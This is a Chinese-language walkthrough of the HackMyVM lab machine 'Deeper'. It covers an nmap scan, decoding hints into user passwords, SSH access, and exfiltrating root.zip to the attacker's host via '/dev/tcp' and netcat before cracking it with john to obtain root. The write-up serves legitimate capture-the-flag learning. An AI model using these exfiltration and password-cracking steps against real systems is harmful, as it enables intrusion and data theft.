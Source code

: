 # hmv_Deeper

# 0.简介

**靶机**：[hackmyvm - Deeper](https://hackmyvm.eu/machines/machine.php?vm=Deeper)
**难度**：绿色
**目标 IP**：192.168.205.143
**本机 IP**：192.168.205.141

# 1.扫描

`nmap`起手

```
┌──(kali㉿kali)-[~/test]
└─$ nmap -sS --min-rate 10000 -p- -Pn 192.168.205.143 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-20 16:34 CST
Nmap scan report for 192.168.205.143
Host is up (0.00046s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:49:23:DF (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.54 seconds
```

# 2.踩点

![Image](https://github.com/user-attachments/assets/91ecf9bd-ad4e-46cc-a738-92bfc7524a8b)

加上

![Image](https://github.com/user-attachments/assets/a2ee96a4-dce7-48ce-b94c-68125e7b3459)

![Image](https://github.com/user-attachments/assets/f7e4d481-8c35-47be-ba4d-88c63577b3c6)

![Image](https://github.com/user-attachments/assets/6ca74cb9-75f8-49fe-8abb-fb13d0bd5c02)

解码（[cyberchef](https://cyberchef.org/)）

![Image](https://github.com/user-attachments/assets/5a25d1be-e84d-4793-948c-0a3678f8ceaa)

![Image](https://github.com/user-attachments/assets/c68825cd-5fbd-459d-aed3-0a45900572b1)

# 3.提权

```bash
┌──(kali㉿kali)-[~/test]
└─$ ssh alice@192.168.205.143                                             
The authenticity of host '192.168.205.143 (192.168.205.143)' can't be established.
ED25519 key fingerprint is SHA256:LsWOF4O2aDb/w6V7Z5VEAcjNfkxMmPOzyEIC7HMr91o.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.205.143' (ED25519) to the list of known hosts.
alice@192.168.205.143's password: 
Linux deeper 6.1.0-11-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.38-4 (2023-08-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Aug 26 00:38:16 2023 from 192.168.100.103
alice@deeper:~$ id
uid=1000(alice) gid=1000(alice) groups=1000(alice)
alice@deeper:~$ sudo -l
[sudo] password for alice: 
Sorry, user alice may not run sudo on deeper.
alice@deeper:~$ ls -la
total 32
drwxr--r-- 3 alice alice 4096 Aug 26  2023 .
drwxr-xr-x 4 root  root  4096 Aug 25  2023 ..
lrwxrwxrwx 1 alice alice    9 Aug 25  2023 .bash_history -> /dev/null
-rw-r--r-- 1 alice alice  220 Aug 25  2023 .bash_logout
-rw-r--r-- 1 alice alice 3526 Aug 25  2023 .bashrc
-rw-r--r-- 1 alice alice   41 Aug 25  2023 .bob.txt
drwxr-xr-x 3 alice alice 4096 Aug 26  2023 .local
-rw-r--r-- 1 alice alice  807 Aug 25  2023 .profile
-rw-r--r-- 1 alice alice   33 Aug 26  2023 user.txt
alice@deeper:~$ cat .bob.txt
535746745247566c634556756233566e61413d3d

```

![Image](https://github.com/user-attachments/assets/6cba623b-f063-4b85-93e5-72e751571700)

```bash
alice@deeper:/home$ su - bob
Password: 
bob@deeper:~$ id
uid=1001(bob) gid=1001(bob) groups=1001(bob)
bob@deeper:~$ sudo -l
[sudo] password for bob: 
Sorry, user bob may not run sudo on deeper.
bob@deeper:~$ ls -la
total 28
drwxr--r-- 3 bob  bob  4096 Aug 26  2023 .
drwxr-xr-x 4 root root 4096 Aug 25  2023 ..
lrwxrwxrwx 1 bob  bob     9 Aug 25  2023 .bash_history -> /dev/null
-rw-r--r-- 1 bob  bob   220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 bob  bob  3526 Apr 23  2023 .bashrc
drwxr-xr-x 3 bob  bob  4096 Aug 25  2023 .local
-rw-r--r-- 1 bob  bob   807 Aug 25  2023 .profile
-rw-r--r-- 1 bob  bob   215 Aug 26  2023 root.zip
bob@deeper:~$ cat root.zip > /dev/tcp/192.168.205.141/7777

#kali
┌──(kali㉿kali)-[~/test/tmp]
└─$ nc -lvnp 7777 > root.zip 
listening on [any] 7777 ...
connect to [192.168.205.141] from (UNKNOWN) [192.168.205.143] 40706
                                                 
┌──(kali㉿kali)-[~/test/tmp]
└─$ zip2john root.zip > hash                          
ver 1.0 efh 5455 efh 7875 root.zip/root.txt PKZIP Encr: 2b chk, TS_chk, cmplen=33, decmplen=21, crc=2D649941 ts=BA81 cs=ba81 type=0
                                                                                                                                   
┌──(kali㉿kali)-[~/test/tmp]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
No password hashes left to crack (see FAQ)
                                                                                                                                   
┌──(kali㉿kali)-[~/test/tmp]
└─$ john --show hash                                  
root.zip/root.txt:bob:root.txt:root.zip::root.zip

1 password hash cracked, 0 left                                              
                                 
┌──(kali㉿kali)-[~/test/tmp]
└─$ unzip root.zip
Archive:  root.zip
[root.zip] root.txt password: 
 extracting: root.txt                                                                                                                                               
                                                                                                                                 
┌──(kali㉿kali)-[~/test/tmp]
└─$ cat root.txt
root:IhateMyPassword
                                
```

登录root

```bash
bob@deeper:~$ su -
Password: 
root@deeper:~# id
uid=0(root) gid=0(root) groups=0(root)

```